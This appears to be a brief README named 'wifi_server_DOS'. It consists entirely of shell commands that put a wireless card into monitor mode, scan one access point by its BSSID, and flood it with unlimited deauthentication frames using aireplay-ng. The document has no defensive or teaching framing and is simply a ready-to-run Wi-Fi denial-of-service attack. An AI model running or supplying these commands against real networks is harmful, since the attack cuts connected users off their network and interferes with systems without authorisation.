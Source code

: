 # wifi_server_DOS
sudo -s


ifconfig wlo1 down


iwconfig wlo1 mode monitor


ifconfig wlo1 up


airmon-ng check wlo1


//(kill NetworkManager  >>  then dhclient  >> then all others)


airodump-ng -c 6 -w SCAN_test1 --bssid 34:E9:11:92:FD:33 wlo1


aireplay-ng -0 0 -a 34:E9:11:92:FD:33 wlo1


# wifi_server_DOS
